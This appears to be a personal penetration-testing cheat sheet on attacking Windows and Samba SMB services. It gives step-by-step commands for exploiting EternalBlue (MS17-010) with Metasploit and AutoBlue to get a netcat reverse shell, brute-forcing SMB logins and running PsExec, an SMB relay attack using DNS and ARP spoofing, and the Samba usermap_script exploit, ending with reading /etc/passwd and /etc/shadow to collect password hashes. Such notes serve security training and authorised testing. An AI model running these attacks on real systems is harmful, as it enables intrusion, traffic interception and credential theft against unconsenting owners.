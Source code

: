 # Eternal Blue

## Scan to check if vulnerable
nmap -sV -p 445 --script=sbm-vuln-ms17-010 TARGET

## Metasploit
search eternalblue

(Scanner) auxiliary/scanner/smb/smb_ms17_010

(Exploit) exploit/windows/smb/ms17_010_eternalblue

## AutoBlue-MS17-010
Via github

Have to generate shellcode to exploit

Execute prior 

Generate a stageless payload 

Start netcat listener 
  Nc -nvlp 1234 (port you set up prior)
  
In the eternalblue_exploit directory in a different prompt
  Change mod
  Python eternalblue_exploit7.py TARGET shellcode/sc_x64.bin
  
Will have a connection in the netcat terminal 

# PsExec

(Scan to find supported protocoles and dialets of server) 

nmap -p445 --script smb-protocols TARGET

## start metasploit for login

auxiliary/scanner/smb/smb_login -> set User and Pass File

## Authenticate 

psexec.py user@TARGET cmd.exe (COMMAND)

## Authenticate with metasploit

search psexec
choose module: exploit/windows/smb/psexec -> set SMBuser and SMBpass

# Relay Attack

Start metasploit

search smb_relay

Choose module: exploit/windows/smb/smbrelay -> set SRVHOST, LHOST, SMBHOST

In another tab: 

Echo “TARGET_IP *.DOMAIN” > dns

Point request for domain to our kali linux system

Dnsspoof -i eth1 -f dns

In another tab: 

Enable ip forwarding: Echo 1 > /proc/sys/net/ipv4/ip forward

Arpspoof -i eth1 -t IP GATEWAY

In another tab:

Arp spoof attack: Arspoof -i eth1 -t GATEWAY IP

## SAMBA

Msfconsole 

Search smb_version 

Use auxiliary/scanner/smb/smb_version

set/show options 

Searchsploit the samba version (in another terminal)

Search samba version (back in original)

Choose exploit/multi/samba/usermap_script 

show/set options 

Exploit 

Cntrl Z

Sessions 

Sessions -u 1

List out users: Cat /etc/password

List out hashes: Cat /etc/shadow

